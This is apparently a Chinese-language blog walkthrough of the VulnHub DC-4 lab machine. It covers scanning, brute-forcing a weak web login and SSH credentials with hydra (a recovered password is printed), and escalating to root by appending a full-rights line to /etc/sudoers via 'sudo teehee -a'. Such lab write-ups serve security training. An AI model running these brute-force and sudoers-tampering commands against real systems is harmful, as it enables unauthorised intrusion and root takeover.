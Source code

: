 ```yaml
---
title: vulnhub-DC-4
categories:
 - vulnhub
tags:
- vulnhub
- 渗透测试
---
```


vulnhub渗透之旅（4）-DC-4

# 信息收集

## 扫网段

```shell
nmap -sn 192.168.72.0/24
Nmap scan report for 192.168.72.157
Host is up (0.0012s latency).
```

## 扫端口

```shell
nmap -A 192.168.72.157 -p 1-65535
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

发现端口

## 扫web应用

```shell
whatweb 192.168.72.157
http://192.168.72.157 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.15.10], IP[192.168.72.157], PasswordField[password], Title[System Tools], nginx[1.15.10]
```

## 扫目录

```
dirb http://192.168.72.157
---- Scanning URL: http://192.168.72.157/ ----
==> DIRECTORY: http://192.168.72.157/css/                                                                 
==> DIRECTORY: http://192.168.72.157/images/                                                              
+ http://192.168.72.157/index.php (CODE:200|SIZE:506)                                                     
                                                                                                          
---- Entering directory: http://192.168.72.157/css/ ----
                                                                                                          
---- Entering directory: http://192.168.72.157/images/ ----
                                                                                                          
-----------------
END_TIME: Wed Apr 14 08:52:58 2021
DOWNLOADED: 13836 - FOUND: 1
```

# 手动渗透

## 弱密码

一边挂着sqlmap一边用burp爆破，结果是弱密码。

![image-20210414210034406](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414210034406.png)

![image-20210414210208393](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414210208393.png)

![image-20210414210457985](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414210457985.png)

抓包，可以执行命令

![image-20210414210525679](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414210525679.png)

试了下反弹shell没成功

看passwd发现三个用户

![image-20210414211316148](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414211316148.png)

发现了备份,看看

![image-20210414211353791](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414211353791.png)

![image-20210414211627875](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414211627875.png)

## ssh爆破

把用过的密码保存下来ssh爆破下

```shell
hydra -l jim  -P ~/Desktop/jim-passwd.txt  192.168.72.157 ssh        
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-14 09:19:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task
[DATA] attacking ssh://192.168.72.157:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 76 to do in 00:01h, 16 active
[22][ssh] host: 192.168.72.157   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-14 09:21:16
```

![image-20210414214009163](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414214009163.png)

提示有新邮件

![image-20210414214159430](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414214159430.png)

emmm，居然把密码放邮件里了

登上去看看

![image-20210414214313195](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414214313195.png)

```shell
harles@dc-4:/var/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee 
```

## teehee提权

这里有个teehee，google下看看能不能用

`echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers`

利用teehee在`/etc/sudoers`中追加charles的权限

```shell
charles@dc-4:/var/mail$ echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
charles ALL=(ALL:ALL) ALL
charles@dc-4:/$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for charles: 
root@dc-4:/# whoami
root
```

![image-20210414215327820](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210414215327820.png)

